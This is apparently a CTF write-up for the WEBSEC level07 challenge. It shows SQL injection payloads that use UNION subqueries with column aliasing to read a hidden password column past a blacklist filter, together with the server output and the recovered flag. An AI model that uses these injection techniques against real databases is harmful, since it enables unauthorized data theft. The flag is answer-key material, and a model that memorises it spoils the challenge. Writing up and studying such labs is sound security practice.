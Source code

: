 ```yaml
---
layout: default
title: level07
---
```


Another SQLi challenge :D

We can see it filters some strings, and also we can see this interesting code:
```php
//$query = 'SELECT id,login,password FROM users WHERE id=' . $injection;
$query = 'SELECT id,login FROM users WHERE id=' . $injection;
```

So, it means we need to somehow achieve the `password`, however, we can't use the string `or`, which is found inside password.

Let's try giving this query:
`1337 union select id,login from (select 1337 as id, 1337, 1337 as login union select * from users)`

we trick the second select, and then he thinks the the column `password` is the column `login`, and by this way manage to get `(id,password)`.

* output
> ```
> Username for given ID: not_your_flag
>
> Other User Details:
> id -> 0
> login -> not_your_flag
> ```

Okay, so now our username is the flag. however, when we do `select * from table`, we select the first row, which doesn't include our flag.

Let's try selecting the next column, by adding: `where id between 1 and 1`

* input
> `1337 union select id,login from (select 1337 as id, 1337, 1337 as login union select * from users) where id between 1 and 1`
* output
> ```
> Username for given ID: WEBSEC{Because_blacklist_based_filter_are_always_great}
> 
> Other User Details:
> id -> 1
> login -> WEBSEC{Because_blacklist_based_filter_are_always_great}
> ```

(We could've also do: `select max(id)`, instead of using the `between`).

**Flag:** ***`WEBSEC{Because_blacklist_based_filter_are_always_great}`*** 